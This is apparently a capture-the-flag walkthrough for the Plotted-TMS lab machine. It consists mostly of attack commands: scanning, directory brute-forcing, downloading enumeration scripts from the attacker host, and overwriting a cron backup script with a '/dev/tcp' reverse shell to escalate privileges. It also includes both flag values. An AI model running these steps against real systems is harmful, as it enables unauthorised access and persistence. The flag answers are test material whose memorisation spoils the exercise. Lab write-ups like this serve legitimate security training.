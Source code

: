 # Plotted-TMS

## Task 1 Compromise

#### What is user.txt?

```bash
nmap -n -sV -sC 10.10.137.48
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 14-47-42.png>)

```bash
gobuster dir -u http://10.10.137.48 -w /usr/share/wordlists/common.txt \
             -t64
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-00-23.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-01-31.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-05-40.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-04-36.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-05-54.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-16-01.png>)

```bash
gobuster dir -u http://10.10.137.48:445 \
             -w /usr/share/dirb/wordlists/common.txt \
             -t64
gobuster dir -u http://10.10.137.48:445/management \
             -w /usr/share/dirb/wordlists/common.txt \
             -t64
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-13-38.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 18-05-37.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-13-12.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-16-49.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 16-05-23.png>) ![](<../../.gitbook/assets/Screenshot from 2022-03-12 16-29-07.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 16-29-30.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 18-01-26.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 16-34-23.png>)

```bash
nc -nvlp 4444
python3 -c 'import pty; pty.spawn("/bin/bash")'
find / -type f -name user.txt 2>/dev/null
cat /home/plot_admin/user.txt
ls -l /home/plot_admin/
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 16-42-05.png>)

```bash
wget http://10.6.9.176/linpeas.sh -P /tmp
bash /tmp/linpeas.sh
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 16-50-17.png>)

```bash
ls -ld /var/www/scripts/
cat /var/www/scripts/backup.sh
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 18-11-34.png>)

```bash
echo '#!/bin/bash' > /var/www/scripts/backup2.sh
echo 'sh -i >& /dev/tcp/10.6.9.176/4445 0>&1' >> /var/www/scripts/backup2.sh
chmod +x /var/www/scripts/backup2.sh 
mv -f /var/www/scripts/backup2.sh /var/www/scripts/backup.sh 
```

```bash
nc -nvlp 4445
python3 -c 'import pty; pty.spawn("/bin/bash")'
cat /home/plot_admin/user.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 18-21-17.png>)

{% hint style="success" %}
`77927510d5edacea1f9e86602f1fbadb`
{% endhint %}

#### What is root.txt?

```bash
wget http://10.6.9.176/suid3num.py
python3 suid3num.py
cat /etc/doas.conf
/usr/bin/doas openssl enc -in /root/root.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 18-25-38 (1).png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 18-26-14.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 18-28-23.png>)

{% hint style="success" %}
`53f85e2da3e874426fa059040a9bdcab`
{% endhint %}
